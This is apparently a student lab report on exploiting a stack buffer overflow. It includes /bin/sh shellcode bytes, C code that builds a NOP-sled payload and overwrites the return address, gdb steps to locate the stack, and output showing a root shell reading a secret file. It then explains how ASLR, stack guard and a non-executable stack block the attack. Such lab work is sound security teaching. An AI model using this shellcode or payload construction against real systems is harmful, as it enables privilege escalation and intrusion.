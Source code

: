 # Rapport TP `bufoverflow`

## Task 1: Exploiting the Vulnerability
To exploit the buffer overflow vulnerability, 2 main things should be done:
- Adding the shellcode at the end of the buffer (in the overflowed buffer).
- Overwriting the return address with a pointer to the shellcode.

### Provided code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

unsigned long get_sp(void) {
   __asm__("movl %esp, %eax");
}

void main(int argc, char *argv[]) {
    char buffer[1000];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 1000);

    /* You need to fill the buffer with appropriate contents here */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 1000, 1, badfile);
    fclose(badfile);
}
```
The provided code is a simple C program that initializes a buffer with 1000 `NOP` instructions, then writes the buffer to a file named `badfile`.

### Adding the shellcode
To this code, we will first add the following:
```c
int shell_offset = sizeof(buffer) - sizeof(shellcode);
for (int i = 0; i < sizeof(shellcode); i++) {
    buffer[shell_offset + i] = shellcode[i];
}
```
This code will add the shellcode to the end of the buffer, thus making sure that the shellcode is in the overflowed section of the buffer.

### Overwriting the return address
To overwrite the return address, we first need to find the address of the buffer in memory. We can do this by debugging the program and printing the address of the buffer. We can then use this address to calculate the return address we want.

```
$> gdb -q stack
(gdb) disas bof
(gdb) break *0x080484ca
(gdb) r
(gdb) i r $ebp
```
_Results in the image `gdb.png`_

Here's an explanation of the commands:
- `disas bof`: Disassemble the `bof` function to find the address of the buffer.
- `break *0x080484ca`: Set a breakpoint at the end of the `bof` function.
- `r`: Run the program.
- `i r $ebp`: Print the value of the `ebp` register, which points to the base of the stack frame.

Once we have this address (`0xffffd2a8`) we can simply add an offset to it to ensure falling into the "NOP sled" which will lead to the shellcode.
For the offset I simply chose to change the 2 to a 3 in the address. Hence the return address will be `0xffffd3a8`.

To add this to the code, we do the following:
```c
#define BUFFER_SIZE 293
...
int main(int argc, char *argv[]) {
    ...
    for (int i = BUFFER_SIZE%4; i <= BUFFER_SIZE + 16; i++) {
        *(buffer + i) = 0xa8;
        *(buffer + i + 1) = 0xd3;
        *(buffer + i + 2) = 0xff;
        *(buffer + i + 3) = 0xff;
    }
    ...
}
```

### Running the exploit
```
$> gcc -o exploit exploit.c
$> ./exploit
$> ./stack
# cat /root/.secret
# This secret file is generated when container is created
# The root secret string below will be replaced with a keyed hash
My ROOT secret string is: 85bdbafcdbace591a72f87e42f641fd2

# id
uid=1000(ubuntu) gid=1000(ubuntu) euid=0(root) groups=1000(ubuntu),27(sudo)
```

## Task 2: Address Randomization
We enable the address randomization, then run the `whilebash.sh` script to run the exploit multiple times.

We can see that the exploit fails (`while.png`) to work when the address randomization is enabled. This is because the address of the buffer is randomized each time the program is run, making it almost impossible to find the shellcode with our fixed return address. The only scenario where the exploit would work is if we are lucky enough to have the buffer address fall into the NOP sled. Running the exploit multiple times, we do what we "squash" the address space to make the exploit work. However, nowadays, this space is too large to be able to do this. Hence, the exploit is not reliable.

## Task 3: Stack Guard
We disable the address randomization again and enable the stack guard. We then run the exploit and see that it fails to work (`squash.png`). This is because the stack guard detects the buffer overflow and terminates the program before the shellcode can be executed.

## Task 4: Non-Executable Stack
We disable the stack guard and enable the non-executable stack. We then run the exploit and see that it fails to work (`non-exec.png`). This is because the stack is marked as non-executable, so the shellcode cannot be executed from the stack.

## Conclusion
In conclusion, the buffer overflow exploit works when the address randomization is disabled, the stack guard is disabled, and the stack is executable. However, when any of these security features are enabled, the exploit fails to work. This shows the importance of these security features in preventing buffer overflow attacks.
